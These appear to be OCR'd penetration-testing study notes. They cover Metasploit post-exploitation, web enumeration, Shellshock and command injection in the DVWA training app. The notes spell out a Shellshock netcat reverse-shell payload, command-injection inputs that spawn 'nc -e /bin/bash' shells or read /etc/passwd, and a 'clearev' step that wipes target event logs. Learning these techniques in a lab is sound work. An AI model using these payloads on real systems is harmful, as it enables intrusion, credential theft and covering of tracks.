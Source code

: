 	$ set SESSION 1 

	* there are lots of enumeration tools, check out hashdump (post/windows/gather/hashdump)

	> clearev - will clear all logged events on the target

	> run post/windows/gather/enum_applications - we can run payloads directly from the target without putting the session in background



# Web application penetration testing

## Information gathering

	- visit the IP/host and search the web pages and inputs

	$ dirb http://172.16.116.132 - will enumerate all the web app directories via built-in wordlist

	* use enumeration tools from the section

	* search Github for other tools


## Shellshock

This vulnerability was patched and no longer in the wild

	- () { :;}; - syntax of an empty function

	- () { :;}; /bin/bash -c 'nc 172.16.116.130 1234 -e /bin/bash'

	$ nc -lvp 1234

	* this can be ran directly from msfconsole - exploit/multi/http/apache_mod_cgi_bash_env_exec and set RHOSTS and TARGETURI

	
## Command injection (DVWA)

-- Low security

	$ 172.16.116.130; ls

	$ 172.16.116.130; nc -e /bin/bash 172.16.116.130 1234 - set up the listener 'nc -lvp 1234'

	$ cd ..

	$ cd ..

	$ cat /etc/passwd

	* see source code

-- Medium security

	$ 172.16.116.130 & nc -e /bin/bash 172.16.116.130 1234 - '&& and ; are filtered'

	* review source code
